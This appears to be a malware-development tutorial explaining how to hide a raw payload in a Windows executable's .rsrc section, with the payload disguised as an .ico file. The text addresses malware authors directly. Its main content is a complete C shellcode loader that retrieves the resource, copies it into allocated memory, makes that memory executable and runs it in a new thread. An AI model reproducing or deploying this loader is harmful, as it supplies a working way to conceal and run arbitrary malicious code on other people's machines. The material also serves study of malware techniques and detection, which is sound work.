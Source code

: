 # Payload in .rsrc section

Saving the payload in the `.rsrc` section is one of the best options as this is where most real-world binaries save their data. It is also a cleaner method for malware authors, since larger payloads cannot be stored in the `.data` or `.rdata` sections due to size limits, leading to errors from Visual Studio during compilation.

The steps below illustrate how to store a payload in the `.rsrc` section.

1. Inside Visual Studio, right-click on 'Resource files' then click Add > New Item.
2. Click on 'Resource File'.
3. This will generate a new sidebar, the Resource View. Right-click on the .rc file (Resource.rc is the default name), and select the 'Add Resource' option.
4. Click 'Import'.
5. Select the calc.ico file, which is the raw payload renamed to have the `.ico` extension.
6. A prompt will appear requesting the resource type. Enter "RCDATA" without the quotes.
7. After clicking OK, the payload should be displayed in raw binary format within the Visual Studio project
8. When exiting the Resource View, the "resource.h" header file should be visible and named according to the .rc file from Step 2. This file contains a define statement that refers to the payload's ID in the resource section (IDR\_RCDATA1). This is important in order to be able to retrieve the payload from the resource section later.

Once compiled, the payload will now be stored in the `.rsrc` section, but it cannot be accessed directly. Instead, several WinAPIs must be used to access it.

* [FindResourceW](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-findresourcew) - Get the location of the specified data stored in the resource section of a special ID passed in (this is defined in the header file)
* [LoadResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) - Retrieves a `HGLOBAL` handle of the resource data. This handle can be used to obtain the base address of the specified resource in memory.
* [LockResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) - Obtain a pointer to the specified data in the resource section from its handle.
* [SizeofResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource) - Get the size of the specified data in the resource section.

The code snippet below will utilize the above Windows APIs to access the `.rsrc` section and fetch the payload address and size.

```c
#include <Windows.h>
#include <stdio.h>
#include "resource.h"

int main() {

	HRSRC		hRsrc = NULL;
	HGLOBAL		hGlobal = NULL;
	PVOID		pPayloadAddress = NULL;
	SIZE_T		sPayloadSize = NULL;


	// Get the location to the data stored in .rsrc by its id *IDR_RCDATA1*
	hRsrc = FindResourceW(NULL, MAKEINTRESOURCEW(IDR_RCDATA1), RT_RCDATA);
	if (hRsrc == NULL) {
		// in case of function failure 
		printf("[!] FindResourceW Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Get HGLOBAL, or the handle of the specified resource data since its required to call LockResource later
	hGlobal = LoadResource(NULL, hRsrc);
	if (hGlobal == NULL) {
		// in case of function failure 
		printf("[!] LoadResource Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Get the address of our payload in .rsrc section
	pPayloadAddress = LockResource(hGlobal);
	if (pPayloadAddress == NULL) {
		// in case of function failure 
		printf("[!] LockResource Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Get the size of our payload in .rsrc section
	sPayloadSize = SizeofResource(NULL, hRsrc);
	if (sPayloadSize == NULL) {
		// in case of function failure 
		printf("[!] SizeofResource Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Printing pointer and size to the screen
	printf("[i] pPayloadAddress var : 0x%p \n", pPayloadAddress);
	printf("[i] sPayloadSize var : %ld \n", sPayloadSize);

	void* exec_mem;
	BOOL rv;
	HANDLE th;
	DWORD oldprotect = 0;

	exec_mem = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (exec_mem == NULL) {
		printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
		return -1;
	}

	RtlMoveMemory(exec_mem, pPayloadAddress, sPayloadSize);

	rv = VirtualProtect(exec_mem, sPayloadSize, PAGE_EXECUTE_READ, &oldprotect);

	if (rv != 0) {
		th = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)exec_mem, NULL, 0, NULL);
		WaitForSingleObject(th, -1);
	}

	return 0;
}
```
